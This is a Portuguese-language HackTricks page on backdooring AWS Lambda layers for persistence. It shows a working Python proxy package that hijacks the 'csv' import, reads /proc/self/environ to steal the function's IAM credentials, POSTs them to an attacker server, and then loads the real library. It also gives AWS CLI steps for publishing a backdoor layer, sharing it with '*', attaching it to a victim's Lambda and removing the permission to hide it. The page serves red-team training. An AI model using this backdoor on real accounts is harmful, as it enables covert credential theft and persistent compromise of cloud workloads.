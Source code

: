# AWS - Persistência de Camadas Lambda

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Camadas Lambda

Uma camada Lambda é um arquivo .zip que **pode conter código adicional** ou outro conteúdo. Uma camada pode conter bibliotecas, um [runtime personalizado](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dados ou arquivos de configuração.

É possível incluir até **cinco camadas por função**. Quando você inclui uma camada em uma função, o **conteúdo é extraído para o diretório `/opt`** no ambiente de execução.

Por **padrão**, as **camadas** que você cria são **privadas** à sua conta AWS. Você pode optar por **compartilhar** uma camada com outras contas ou **tornar** a camada **pública**. Se suas funções consumirem uma camada que uma conta diferente publicou, suas funções podem **continuar a usar a versão da camada após ela ter sido excluída, ou após sua permissão para acessar a camada ser revogada**. No entanto, você não pode criar uma nova função ou atualizar funções usando uma versão de camada excluída.

Funções implantadas como uma imagem de contêiner não usam camadas. Em vez disso, você empacota seu runtime preferido, bibliotecas e outras dependências na imagem do contêiner ao construir a imagem.

### Caminho de carregamento do Python

O caminho de carregamento que o Python usará na lambda é o seguinte:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Verifique como as **segundas** e **terceiras** **posições** são ocupadas por diretórios onde **lambda layers** descompactam seus arquivos: **`/opt/python/lib/python3.9/site-packages`** e **`/opt/python`**

{% hint style="danger" %}
Se um atacante conseguir **backdoor** uma **layer** lambda usada ou **adicionar uma** que estará **executando código arbitrário quando uma biblioteca comum for carregada**, ele poderá executar código malicioso com cada invocação de lambda.
{% endhint %}

Portanto, os requisitos são:

* **Verificar bibliotecas** que são **carregadas** pelo código das vítimas
* Criar uma **biblioteca proxy com lambda layers** que irá **executar código personalizado** e **carregar a biblioteca original**.

### Bibliotecas pré-carregadas

{% hint style="warning" %}
Ao abusar dessa técnica, encontrei uma dificuldade: Algumas bibliotecas já estão **carregadas** no tempo de execução do python quando seu código é executado. Eu esperava encontrar coisas como `os` ou `sys`, mas **até a biblioteca `json` estava carregada**.\
Para abusar dessa técnica de persistência, o código precisa **carregar uma nova biblioteca que não esteja carregada** quando o código é executado.
{% endhint %}

Com um código python como este, é possível obter a **lista de bibliotecas que estão pré-carregadas** dentro do tempo de execução do python em lambda:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
E esta é a **lista** (verifique se bibliotecas como `os` ou `json` já estão lá)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
E esta é a lista de **bibliotecas** que **o lambda inclui instaladas por padrão**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Backdooring de Camada Lambda

Neste exemplo, vamos supor que o código alvo está importando **`csv`**. Vamos **backdoor a importação da biblioteca `csv`**.

Para fazer isso, vamos **criar o diretório csv** com o arquivo **`__init__.py`** nele em um caminho que é carregado pelo lambda: **`/opt/python/lib/python3.9/site-packages`**\
Então, quando o lambda for executado e tentar carregar **csv**, nosso **arquivo `__init__.py` será carregado e executado**.\
Este arquivo deve:

* Executar nosso payload
* Carregar a biblioteca csv original

Podemos fazer ambos com:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Então, crie um zip com este código no caminho **`python/lib/python3.9/site-packages/__init__.py`** e adicione-o como uma camada lambda.

Você pode encontrar este código em [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

O payload integrado **enviará as credenciais IAM para um servidor NA PRIMEIRA VEZ que for invocado ou APÓS um reset do contêiner lambda** (mudança de código ou lambda fria), mas **outras técnicas** como as seguintes também poderiam ser integradas:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Camadas Externas

Note que é possível usar **camadas lambda de contas externas**. Além disso, uma lambda pode usar uma camada de uma conta externa mesmo que não tenha permissões.\
Além disso, o **número máximo de camadas que uma lambda pode ter é 5**.

Portanto, para melhorar a versatilidade desta técnica, um atacante poderia:

* Backdoor uma camada existente do usuário (nada é externo)
* **Criar** uma **camada** em **sua conta**, dar **acesso à conta da vítima** para usar a camada, **configurar** a **camada** na Lambda da vítima e **remover a permissão**.
* A **Lambda** ainda poderá **usar a camada** e a **vítima não** terá uma maneira fácil de **baixar o código das camadas** (além de conseguir um rev shell dentro da lambda)
* A vítima **não verá camadas externas** usadas com **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Treinamento AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Treinamento GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
